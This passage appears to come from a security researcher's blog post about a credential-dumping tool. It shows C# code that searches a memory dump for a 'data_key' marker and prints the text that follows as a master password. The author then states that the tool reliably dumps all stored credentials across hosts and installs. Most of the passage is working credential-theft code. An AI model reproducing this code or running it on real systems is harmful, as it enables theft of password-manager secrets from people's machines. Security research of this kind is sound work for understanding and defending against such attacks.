 ```csharp
    public static void extract_master(string text)
    {
        int index = text.IndexOf("data_key");
        int eindex = index + 64;
        while (index >= 0)
        {
            try
            {
                int endIndex = Math.Min(index + eindex, text.Length);
                Regex reg = new Regex("(data_key[ -~]+)");
                var match_one = reg.Match(text.Substring(index - 1, endIndex - index)).ToString();
                Regex clean = new Regex("(_[a-zA-z]{1,14}_[a-zA-Z]{1,10})");
                if (match_one.Replace("data_key", "").Length > 5)
                {
                    if (!clean.IsMatch(match_one.Replace("data_key", "")))
                    {
                        Console.WriteLine("->Master Password : " + match_one.Replace("data_key", "") + "\n");
                    }

                }
                index = text.IndexOf("data_key", index + 1);
                eindex = index + 64;
            }
            catch
            {
                return;
            }

        }
    }
```

## <u>Burn The Dump</u>

After debugging and testing my code I have now reached a stable point where it consistently dumps all stored credentials across hosts and installs.

![Oops...](../assets/img/peeper-final.png)
